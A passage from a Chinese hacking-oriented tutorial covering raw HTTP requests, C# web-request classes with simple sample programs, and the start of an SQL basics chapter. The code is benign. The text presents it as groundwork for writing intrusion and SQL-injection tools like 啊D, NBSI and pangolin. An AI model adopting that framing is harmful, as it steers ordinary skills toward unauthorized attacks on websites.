HTTP/1.1 200 OK  // 请求成功
Content-Length: 5173
Content-Type: text/plain
Last-Modified: Mon, 09 Aug 2010 17:36:07 GMT  // robots.txt 最后的修改时间
Date: Sat, 30 Oct 2010 02:49:21 GMT
Expires: Sat, 30 Oct 2010 02:49:21 GMT
Cache-Control: private, max-age=0
Vary: Accept-Encoding
X-Content-Type-Options: nosniff
Server: sffe  // Web 服务器的软件版本
X-XSS-Protection: 0
```



具体如图 4 所示。我们可以变换请求方法，如用 GET 方式请求：

```text
open www.google.cn 80 // 注意端口号不能省略
GET /robots.txt HTTP/1.1
HOST: www.google.cn
```

具体如图 5 所示。上面请求消息得到的响应：

```text
HTTP/1.1 200 OK
Content-Type: text/plain
Last-Modified: Mon, 09 Aug 2010 17:36:07 GMT
Date: Sat, 30 Oct 2010 02:55:14 GMT
Expires: Sat, 30 Oct 2010 02:55:14 GMT
Cache-Control: private, max-age=0
Vary: Accept-Encoding
X-Content-Type-Options: nosniff
Server: sffe
X-XSS-Protection: 0
Transfer-Encoding: chunked

fef
User-agent: *
Disallow: /search
Disallow: /groups
Disallow: /images……
……
```





具体如图 6 所示。

### 3 C# HTTP 编程相关类简介

对于 HTTP 编程，C# 提供了已经封装好的类，WebClient、WebRequest、WebResponse、HttpWebRequest 及 HttpWebResponse 是常用的几个类。

#### 3.1 WebClient 类

如果只想从指定的 URL 请求文件，则可使用最简单的 .NET 类 WebClient。这个类在 `System.Net` 命名空间中。下面对 WebClient 类一些常用的函数进行说明：

- 1）DownloadData 函数

DownloadData 函数通过 `address` 参数指定的 URI 下载资源。原型是：

```csharp
public byte[] DownloadData(
    string address
)
```

参数 `address`：从中下载数据的 URI。  
返回值：一个 Byte 数组，其中包含下载的资源。

- 2）DownloadFile 函数

DownloadFile 函数将来自 `address` 参数指定的 URI 的数据下载到本地文件。原型是：

```csharp
public void DownloadFile(
    string address,
    string fileName
)
```

参数 `address`：从中下载数据的 URI。  
参数 `fileName`：要接收数据的本地文件的名称。

- 3）OpenRead 函数

OpenRead 函数创建一个 Stream 实例，该实例用于读取 `address` 参数指定资源的内容并保存在一个 Stream 中。然后，就可以把数据从数据流中提取到内存中进行下一步处理。原型是：

```csharp
public Stream OpenRead(
    string address
)
```

参数 `address`：指定下载的 URI，将从中下载数据。  
返回值：一个 Stream，用于保存读取的数据。

- 4）OpenWrite 函数

OpenWrite 函数可以返回一个可写的数据流，并把数据发送给 URI。也可以指定提交的方法把数据发送给主机。默认的方法是 POST。原型是：

```csharp
public Stream OpenWrite(
    string address,
    string method
)
```

参数 `address`：接收数据资源的 URI。  
参数 `method`：用于将数据发送到资源的方法。如果为空，则对于 HTTP 默认值为 POST，对于 FTP 默认值为 STOR。  
返回值：用于将数据写入资源的 Stream。

- 5）Encoding 属性

用于对字符串进行编码的 Encoding。此属性的默认值为 Default 返回的编码。原型是：

```csharp
public Encoding Encoding { get; set; }
```

- 6）Headers 属性

一个 WebHeaderCollection，包含与此请求关联的头域名称/域值对。原型：

```csharp
public WebHeaderCollection Headers { get; set; }
```

- 7）Proxy 属性

代表此 WebClient 对象与远程服务器进行通信的代理设置。原型：

```csharp
public IWebProxy Proxy { get; set; }
```

##### 8) QueryString 属性

QueryString 属性包含以字符串的形式追加到 URI 的名称/值对。QueryString 属性的内容以问号（?）开头，名称/值对之间由“与”符（&）隔开。原型是：

```csharp
public NameValueCollection QueryString { get; set; }
```

##### 9) ResponseHeaders 属性

ResponseHeaders 包含由 WebClient 响应接收的标头信息。原型是：

```csharp
public WebHeaderCollection ResponseHeaders { get; }
```

打开 VS2005 中的“文件→新建→项目”模板，在模板里面选择“Windows 应用程序”，在名称里面修改名字为 WebClient。

在工具箱中拖放一个“Button”控件、一个“TextBox”控件、一个“Label”控件、一个“RichTextBox”控件到窗体中，然后移动，重新调节大小位置，如图 7 所示。



双击“打开”按钮，就会切换到按钮的“Click”事件中。“TextBox1.Text”则是获取文本框中用户输入的内容，这里代表我们要访问的网址。“RichTextBox1.Text”用来显示访问网址返回的内容。程序测试代码如下：

```csharp
private void button1_Click(object sender, EventArgs e)
{
    WebClient webclient = new WebClient(); // 生成一个 webclient 实例
    webclient.Headers.Add("user-agent", "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.2; .NET CLR 1.0.3705;)"); // 设置 webclient 实例的 http 头域信息
    Stream stream = webclient.OpenRead(textBox1.Text.Trim()); // OpenRead 函数创建一个 Stream 实例，把 http 访问返回的内容保存在一个 Stream 中
    StreamReader streamreader = new StreamReader(stream, Encoding.UTF8); // 设置字符串编码
    string str = streamreader.ReadToEnd();
    richTextBox1.Text = str;
}
```

按“Ctrl+F5”编译运行，运行效果如图 8 所示。



这就是一个简单的 HTTP 源代码访问浏览器。

#### 3.2 WebRequest 类和 WebResponse 类

WebClient 类使用起来比较简单，但是它的功能非常有限，主要用于处理发送请求和接收响应的协议，例如 HTTP、FTP 等。它不能处理一些协议的附加特性，例如处理 HTTP 的 Cookie。如果想利用这些特性，可以使用 System.Net 命名空间中的 WebRequest 类和 WebResponse 类。

- 1) Create 函数

Create 函数通过 `requestUriString` 参数指定的 URI 初始化新的 WebRequest 实例。原型是：

```csharp
public static WebRequest Create(
    string requestUriString
)
```

参数 `requestUriString`：标识 Internet 资源的 URI。  
返回值：WebRequest 的一个实例。

- 2) GetResponse 函数

GetResponse 函数返回对 Internet 请求的响应。原型是：

```csharp
public virtual WebResponse GetResponse()
```

返回值：包含对 Internet 请求响应的 WebResponse 类的一个实例。

- 3) GetRequestStream 函数

GetRequestStream 函数初始化向 Internet 资源发送数据的请求，并返回用于向 Internet 资源发送数据的 Stream 实例。原型是：

```csharp
public virtual Stream GetRequestStream()
```

返回值：用于将数据写入 Internet 资源的 Stream。

- 4) Headers 属性

Headers 属性获取或设置与请求关联的标头头域名称/域值。原型是：

```csharp
public virtual WebHeaderCollection Headers { get; set; }
```

属性值：包含与此请求关联的标头头域名称/域值。  
Headers 属性包含要发送到 Internet 资源的标头信息。

- 5) Method 属性

Method 属性获取或设置要在此请求中使用的协议方法。原型是：

```csharp
public virtual string Method { get; set; }
```

属性值：在此请求中使用的协议方法（GET、PUT、POST、HEAD 等）。Method 属性包含要在此请求中使用的请求方法。

- 6) Proxy 属性

获取或设置用于访问此 Internet 资源的网络代理。原型是：

```csharp
public virtual IWebProxy Proxy { get; set; }
```

属性值：用于访问 Internet 资源的代理实例。Proxy 属性标识访问 Internet 资源的网络代理。请求通过代理服务器发送，而不是直接访问 Internet 资源。

- 7) Timeout 属性

获取或设置请求超时前的时间长度。原型是：

```csharp
public virtual int Timeout { get; set; }
```

属性值：请求超时前的时间长度。Timeout 属性指示请求超时前的时间长度，如果超过这个时间没有成功返回则抛出一个异常。Timeout 属性的单位是毫秒，其默认值是 100000。可以设置这个属性，以控制要在响应中等待多长时间。

打开 VS2005 中的“文件→新建→项目”模板，在模板里面选择“Windows 应用程序”，在名称里面改名字为 webRequest。

在工具箱中拖放一个“Button”控件、一个“TextBox”控件、一个“Label”控件、一个“RichTextBox”控件到窗体中，然后移动，重新调节大小位置，如图 9 所示。



双击“打开”按钮，就会切换到按钮的“Click”事件中。“TextBox1.Text”则是获取文本框中用户输入的要访问的地址，这里代表我们要访问的网址。“RichTextBox1.Text”用来显示访问网址返回的 HTTP 头域信息内容。程序测试代码如下：

```csharp
private void button1_Click(object sender, EventArgs e)
{
    WebRequest webRequestTest = WebRequest.Create(textBox1.Text.Trim()); // 生成一个 WebRequest 实例
    WebResponse webResponseTest = webRequestTest.GetResponse(); // GetResponse 函数发送一个 http 请求并返回一个 WebResponse 类的实例
    WebHeaderCollection webHeaderTest = webResponseTest.Headers; // WebHeaderCollection 类的一个实例，包含与请求或响应关联的协议标头头域
    for (int i = 0; i < webHeaderTest.Count; i++) // Count 获取 WebHeaderCollection 类实例中的标头头域的个数
    {
        richTextBox1.Text = richTextBox1.Text + webHeaderTest.GetKey(i) + ": " + webHeaderTest[i] + "\r\n"; // GetKey 获取指定位置的标头头域名称
    }
}
```

按“Ctrl+F5”编译运行，运行效果如图 10 所示。


图 10 webRequest 类代码实例

#### 3.3 HttpWebRequest 类和 HttpWebResponse 类

WebRequest 类和 WebResponse 类提供了读取标头信息的一些支持，而 HttpWebRequest 类和 HttpWebResponse 类提供了其他 HTTP 特定的信息。HttpWebRequest 类和 HttpWebResponse 类是 WebRequest 和 WebResponse 的子类，基于 HTTP 协议。

##### HttpWebRequest 类

- 1) Abort 函数

取消对 Internet 资源的请求。原型是：

```csharp
public override void Abort()
```

Abort 函数取消对资源的请求，一般在 HTTP 请求返回后调用。

- 2) GetResponse 函数

返回来自 Internet 资源的响应。原型是：

```csharp
public override WebResponse GetResponse()
```

返回值：包含来自 Internet 资源的响应的 HttpWebResponse。GetResponse 函数返回包含来自 Internet 资源的响应的 WebResponse 对象，实际返回的实例是 HttpWebResponse。

- 3) Referer 属性

获取或设置 Referer HTTP 标头的值。原型是：

```csharp
public string Referer { get; set; }
```

属性值：Referer HTTP 标头的值。默认值为空引用。

- 4) Headers 属性

Headers 属性获取或设置与请求关联的标头头域名称/域值。原型是：

```csharp
public virtual WebHeaderCollection Headers { get; set; }
```

属性值：包含与此请求关联的标头头域名称/域值。  
Headers 属性包含要发送到 Internet 资源的标头信息。

- 5) Method 属性

Method 属性获取或设置要在此请求中使用的协议方法。原型是：

```csharp
public virtual string Method { get; set; }
```

属性值：在此请求中使用的协议方法（GET、PUT、POST、HEAD 等）。  
Method 属性包含要在此请求中使用的请求方法。

- 6) Proxy 属性

获取或设置用于访问此 Internet 资源的网络代理。原型是：

```csharp
public virtual IWebProxy Proxy { get; set; }
```

属性值：用于访问 Internet 资源的代理实例。  
Proxy 属性标识访问 Internet 资源的网络代理。请求通过代理服务器发送而不是直接访问 Internet 资源。

- 7) Timeout 属性

获取或设置请求超时前的时间长度。原型是：

```csharp
public virtual int Timeout { get; set; }
```

属性值：请求超时前的时间长度。

- 8) User-Agent 属性

获取或设置 User-Agent HTTP 标头的值。原型是：

```csharp
public string UserAgent { get; set; }
```

属性值：User-Agent HTTP 标头的值。默认值为空引用。

- 9) CookieContainer 属性

获取或设置与此请求关联的 Cookie。原型是：

```csharp
public CookieContainer CookieContainer { get; set; }
```

属性值：包含与此请求关联 Cookie 的 CookieContainer。  
CookieContainer 包含与此请求关联的 Cookie。默认情况下，CookieContainer 为空。

##### HttpWebResponse 类

- 1) Close 函数

关闭响应流。原型是：

```csharp
public override void Close()
```

Close 函数关闭响应流，并释放资源连接以供其他请求重用。当一个 HTTP 请求返回时，需要调用 HttpWebResponse.Close 函数来关闭流并释放连接以供重用。

- 2) GetResponseHeader 函数

获取与响应一起返回的标头内容。原型是：

```csharp
public string GetResponseHeader(
    string headerName
)
```

参数 `headerName`：要返回的标头值。  
返回值：指定的标头内容。  
指定要返回的标头头域名称，使用 GetResponseHeader 来检索特定标头的内容。

- 3) GetResponseStream 函数

获取 Stream 用于读取来自服务器的响应体。原型是：

```csharp
public override Stream GetResponseStream()
```

返回值：一个 Stream，包含响应返回的内容。  
GetResponseStream 函数从请求的 Internet 资源返回数据流。

- 4) Cookie 属性

获取或设置与此响应关联的 Cookie。原型是：

```csharp
public CookieCollection Cookies { get; set; }
```

属性值：CookieCollection，包含与此响应关联的 Cookie。

- 5) Headers 属性

获取来自服务器与此响应关联的标头。原型是：

```csharp
public override WebHeaderCollection Headers { get; }
```

属性值：一个 WebHeaderCollection，包含与响应一起返回的标头信息。  
Headers 属性是一个头域名称/域值对集合，包含与响应一起返回的 HTTP 标头值，下表列出了一些公共标头：

| 标头 | 属性 |
|---|---|
| Content-Encoding | ContentEncoding |
| Content-Length | ContentLength |
| Content-Type | ContentType |
| Last-Modified | LastModified |
| Server | 服务器 |

- 6) Method 属性

Method 属性获取用于返回响应的方法。原型是：

```csharp
public string Method { get; }
```

属性值：一个字符串，包含用于返回响应的 HTTP 方法。  
Method 返回用于返回响应的方法。公共 HTTP 方法是 GET、HEAD、POST、PUT 和 DELETE。

- 7) StatusCode 属性

获取响应的状态。原型是：

```csharp
public HttpStatusCode StatusCode { get; }
```

属性值：HttpStatusCode 值之一。

常见 HttpStatusCode 值如下：

| StatusCode | 说明 |
|---|---|
| Accepted | 等效于 HTTP 状态 202。Accepted 指示请求已被接受做进一步处理。 |
| BadRequest | 等效于 HTTP 状态 400。BadRequest 指示服务器未能识别请求。 |
| Continue | 等效于 HTTP 状态 100。Continue 指示客户端可能继续其请求。 |
| Created | 等效于 HTTP 状态 201。Created 指示请求导致在响应被发送前创建新资源。 |
| Forbidden | 等效于 HTTP 状态 403。Forbidden 指示服务器拒绝满足请求。 |
| Found | 等效于 HTTP 状态 302。Found 指示请求的信息位于 Location 头中指定的 URL 处。 |
| Gone | 等效于 HTTP 状态 410。Gone 指示请求的资源不再可用。 |
| InternalServerError | 等效于 HTTP 状态 500。InternalServerError 指示服务器上发生了错误。 |
| LengthRequired | 等效于 HTTP 状态 411。LengthRequired 指示缺少必需的 Content-Length 头。 |
| MethodNotAllowed | 等效于 HTTP 状态 405。MethodNotAllowed 指示请求的资源上不允许请求方法（POST 或 GET）。 |
| Moved | 等效于 HTTP 状态 301。Moved 指示请求的信息已移到 Location 头中指定的 URL 处。 |
| NoContent | 等效于 HTTP 状态 204。NoContent 指示已成功处理请求并且响应已被设定为无内容。 |
| NotAcceptable | 等效于 HTTP 状态 406。NotAcceptable 指示客户端已用 Accept 头指示将不接受资源的任何可用表示形式。 |
| NotFound | 等效于 HTTP 状态 404。NotFound 指示请求的资源不在服务器上。 |
| NotImplemented | 等效于 HTTP 状态 501。NotImplemented 指示服务器不支持请求的函数。 |
| OK | 等效于 HTTP 状态 200。OK 指示请求成功，且请求的信息包含在响应中。这是最常接收的状态代码。 |
| ProxyAuthenticationRequired | 等效于 HTTP 状态 407。ProxyAuthenticationRequired 指示请求的代理要求身份验证。 |
| Redirect | 等效于 HTTP 状态 302。Redirect 指示请求的信息位于 Location 头中指定的 URI 处。 |
| RequestEntityTooLarge | 等效于 HTTP 状态 413。RequestEntityTooLarge 指示请求太大，服务器无法处理。 |
| RequestTimeout | 等效于 HTTP 状态 408。RequestTimeout 指示客户端没有在服务器期望请求的时间内发送请求。 |
| RequestUriTooLong | 等效于 HTTP 状态 414。RequestUriTooLong 指示 URI 太长。 |
| ResetContent | 等效于 HTTP 状态 205。ResetContent 指示客户端应重置（或重新加载）当前资源。 |
| ServiceUnavailable | 等效于 HTTP 状态 503。ServiceUnavailable 指示服务器暂时不可用，通常是由于过多加载或维护。 |
| Unauthorized | 等效于 HTTP 状态 401。Unauthorized 指示请求的资源要求身份验证。 |

- 8) StatusDescription 属性

获取与响应一起返回的状态说明。原型是：

```csharp
public string StatusDescription { get; }
```

属性值：一个字符串，描述响应的状态。

打开 VS2005 中的“文件→新建→项目”模板，在模板里面选择“Windows 应用程序”，在名称里面修改名字为 HttpWebRequest。

在工具箱中拖放一个“Button”控件、一个“TextBox”控件、一个“Label”控件、四个“RichTextBox”控件到窗体中，然后移动、重新调节大小位置，如图 11 所示。

双击“打开”按钮，就会切换到按钮的“Click”事件中。“TextBox1.Text”则是获取文本框中用户输入的内容，这里代表我们要访问的网址。“RichTextBox”分别用来显示 StatusCode，


图 11 控件布局

Cookie、Headers 以及返回的内容。程序测试代码如下：

```csharp
private void button1_Click(object sender, EventArgs e)
{
    // 创建 HttpWebRequest 对象。由于 HttpWebRequest 是一个抽象类，所以不可以直接通过构造函数创建，而须要使用 WebRequest.Create 方法创建
    HttpWebRequest HttpWReq = (HttpWebRequest)WebRequest.Create(textBox1.Text.Trim());
    HttpWReq.Timeout = 20000; // 设置超时时间
    HttpWReq.UserAgent = "Mozilla/5.0 (Windows; U; Windows NT 5.1; zh-CN; rv:1.9.0.13) pois0n"; // 设置 UserAgent 请求头域值

    HttpWebResponse HttpWResp = (HttpWebResponse)HttpWReq.GetResponse(); // GetResponse 函数返回一个 HttpWebResponse 实例

    // 获得 http 请求状态码
    richTextBox1.Text = richTextBox1.Text + HttpWResp.StatusCode.ToString() + ":" + HttpWResp.StatusDescription.ToString();

    // 获得 cookies
    foreach (Cookie cook in HttpWResp.Cookies)
    {
        richTextBox2.Text = richTextBox2.Text + cook.Name + ":" + cook.Value + "\r\n";
    }

    // 获得 headers
    for (int i = 0; i < HttpWResp.Headers.Count; ++i)
    {
        richTextBox3.Text = richTextBox3.Text + HttpWResp.Headers.Keys[i] + ":" + HttpWResp.Headers[i] + "\r\n";
    }

    // 获得返回的 HTML 代码
    Stream streamPois0n = HttpWResp.GetResponseStream(); // GetResponseStream 函数从请求的 Internet 资源返回的内容保存在一个 stream 中
    StreamReader strRe = new StreamReader(streamPois0n, Encoding.UTF8);
    string str = strRe.ReadToEnd().ToString();
    richTextBox4.Text = str;

    HttpWReq.Abort(); // 取消对 Internet 资源的请求
    HttpWResp.Close(); // Close 函数关闭响应并释放资源的连接以供其他请求重用
}
```

按“Ctrl+F5”编译运行，运行效果如图 12 所示。本章结束，相信大家已经掌握了 HTTP 编程的基础知识。对于我们平时用到的一些入侵工具，例如小菜的最爱——啊 D、NBSI、pangolin 等，都是利用这些最基本的知识提交 HTTP 请求到有漏洞的网站来达到入侵的目的的。


图 12 HttpWebRequest 类代码实例


掌握了这些，我们小菜就具有了自己编写工具的能力。但是这仅仅是基础，想要写出功能非常强大的工具这是不够的，因为我们除了掌握编程的基础知识外，还有很多重要的编程技巧在里面。当然更重要的是，我们要清楚漏洞的原理和利用方式，这样才能写出功能强大的工具来。当然了，大家也不要着急，在后面的章节中我们会重点讨论这些内容。

## 第三章

## SQL 基础知识

### SQL 语言基础

#### 1.1 什么是 SQL

SQL（Structured Query Language）指结构化查询语言，其发音是 “S-Q-L”。SQL 是一种 ANSI（美国国家标准学会）的标准计算机语言。通过用 SQL 来访问数据库系统，可以查询或更新数据库中的数据。

#### 1.2 SQL 语言的组成

利用 SQL 我们可以查询、插入、修改、删除数据库中的数据，创建新数据库，在数据库中创建新表或存储过程等。可以将 SQL 分为：

- 数据定义语言（DDL，Data Definition Language）：主要用于创建、修改或删除数据库中的对象，如表、视图、存储过程等。
- 数据查询语言（DQL，Data Query Language）：主要用于数据的检索和查询。
- 数据操作语言（DML，Data Manipulation Language）：主要用于添加、修改或删除数据库中的数据。
- 数据控制语言（DCL，Data Control Language）：主要用于控制数据库用户的访问。

SQL 语句种类比较多，详细分类如下表：

| 分类 | SQL 语句 | 功能/说明 |
|---|---|---|
| 数据定义 | CREATE TABLE | 创建一个数据表 |
| 数据定义 | DROP TABLE | 删除一个数据表 |
| 数据定义 | ALTER TABLE | 修改数据表结构 |
| 数据定义 | CREATE VIEW | 创建一个视图 |
| 数据定义 | DROP VIEW | 删除视图 |
| 数据定义 | CREATE INDEX | 为一个数据表创建索引 |
| 数据定义 | DROP INDEX | 删除索引 |
| 数据定义 | CREATE PROCEDURE | 创建一个存储过程 |
| 数据定义 | DROP PROCEDURE | 删除存储过程 |
| 数据定义 | CREATE TRIGGER | 创建一个触发器 |
| 数据定义 | DROP TRIGGER | 删除触发器 |
| 数据定义 | CREATE SCHEMA | 向数据库添加一个新模式 |
| 数据定义 | DROP SCHEMA | 删除一个模式 |
| 数据查询 | SELECT | 从数据表中检索查询数据 |
| 数据操作 | INSERT | 向数据表中添加新的数据行 |
| 数据操作 | DELETE | 从数据表中删除数据行 |
| 数据操作 | UPDATE | 更新数据表中的数据 |
| 数据控制 | GRANT | 授予用户访问权限 |
| 数据控制 | DENY | 拒绝用户访问 |
| 数据控制 | REVOKE | 删除用户访问权限 |
| 事务控制 | COMMIT | 结束当前事务 |
| 事务控制 | ROLLBACK | 终止当前事务 |
| 程序化 SQL | DECLARE | 声明变量，为查询设定游标 |
| 程序化 SQL | OPEN | 检索查询结果，打开一个游标 |
| 程序化 SQL | FETCH | 检索一行查询结果 |
| 程序化 SQL | CLOSE | 关闭游标 |
| 程序化 SQL | EXECUTE | 动态执行 SQL |
| 程序化 SQL | DESCRIBE | 描述查询语句 |

#### 1.3 SQL 语句的结构

所有的 SQL 语句都有自己的格式。为了对 SQL 有一个直观的认识，下面先给出一个简单 SQL 语句的例子。例如，我们平时在注入的时候经常会看到包含类似这样一条语句 `select name from admin where id=1`，我们把这条语句拆分：

```sql
SELECT（关键字）
name（字段）
FROM（关键字）
admin（表名）
WHERE（关键字）
id = 1（查询条件）
```

